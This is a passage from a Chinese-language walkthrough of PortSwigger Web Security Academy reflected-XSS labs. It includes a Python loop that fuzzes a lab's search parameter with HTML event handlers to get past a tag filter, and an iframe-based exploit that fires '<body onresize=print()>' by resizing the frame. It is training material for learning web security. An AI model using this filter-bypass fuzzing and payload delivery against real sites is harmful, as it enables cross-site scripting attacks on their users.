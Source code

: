 ```python
onpopstate
onresize
onscroll
onselectionchange
onselectstart
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkittransitionend
onwheel
""".split("\n")

for att in all_events:
    res = requests.get(f"https://ac8b1fa91f9f0ce0c0611eb500ad00c5.web-security-academy.net/?search=<body {att}>")
    print(att,res.status_code)
    if res.status_code != 400:
        break
```
發現 `onresize` 可以用

然後就寫一下 Exploit 就好ㄌ
```html
<iframe src="https://ac8b1fa91f9f0ce0c0611eb500ad00c5.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" width="200" height="200">
</iframe>

<script>
    setTimeout(()=>{
        document.getElementsByTagName("iframe")[0].width=300;
    },3000);
</script>
```

## [Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)
### 題目敘述
 This lab blocks all HTML tags except custom ones.
